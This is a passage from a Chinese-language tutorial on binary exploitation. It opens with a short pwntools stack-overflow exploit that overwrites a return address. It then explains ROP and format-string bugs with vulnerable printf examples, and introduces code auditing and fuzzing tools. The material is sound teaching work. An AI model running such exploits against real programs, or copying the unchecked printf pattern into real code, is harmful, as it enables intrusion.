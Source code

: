 ```python
from pwn import *
sh=process("./pwn")
exp=b'a'*(0x6c+4)
exp+=p32(0x0804863A) # 4 字节的返回地址
sh.sendline(exp)
sh.interactive() # 切换为手动交互模式
```

![](https://cdn.xyxsw.site/shell.png)

##### 0x1

通过上面的学习，我们已经可以知道执行任意函数的办法，但很多情况下，对于攻击者来说，程序中并没有可用的后门函数来达到攻击的目的，因此我们需要一种手段，来让程序执行任意代码（任意汇编代码），这样就可以最高效地进行攻击。ROP（Return Oriented Programming）面向返回编程就是这样的一种技术，在栈溢出的基础上，通过在程序中寻找以 retn 结尾的小片段（gadgets），来改变某些寄存器、栈变量等的值，再结合 Linux 下的系统调用，我们就可以执行需要的任意代码。

ROP 网上已有非常系统的资料，在这里不做过多的叙述，可参考 ctf-wiki: [ret2shellcode](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2shellcode)

### 格式化字符串

格式化字符串的利用思路来源于`printf`函数中的`%n`format 标签，该标签的作用和`%s`、`%d`等不同，是将已打印的字符串的长度返回到该标签对应的变量中。在正常情况下的使用不会出现什么问题：

```c
printf("abcd%n",&num);
//输出abcd,并且num的值为4
```

但如果在编写代码时忘记 format 字符串：

```c
printf(something_want_print);
```

此时若攻击者可以自定义该字符串，就可以使用`%d`、`%p`、`%s`等打印栈上数据，或者`%n`来覆写栈上的数据，如果覆写了返回地址，就可以实现任意代码执行。

```c
char ch[20];
scanf("%s",ch);// 输入 %d%n%n%n%n%n
printf(ch);
```

## 漏洞挖掘技术

### 代码审计

代码审计分人工代码审计和自动化代码审计，人工审计由安全研究人员查看代码来发现漏洞，需要安全研究人员很高的研究经验，投入大量的人力。自动化代码审计目前的发展进度迅速，如由 Vidar-Team 毕业学长 LoRexxar 主导的开源项目 [Kunlun-M](https://github.com/LoRexxar/Kunlun-M)

以及字节跳动公司开源的 [appshark](https://github.com/bytedance/appshark)

### fuzz

fuzz 是一种自动化测试手段，通过一定的算法生成一定规律的随机的数据输入到程序中，如果程序发生崩溃等异常，即可知道此处可能有漏洞。比较著名的有[AFL](https://github.com/google/AFL)、[AFLplusplus](https://github.com/AFLplusplus/AFLplusplus)、[libfuzzer](https://llvm.org/docs/LibFuzzer.html)、[honggfuzz](https://github.com/google/honggfuzz)等。
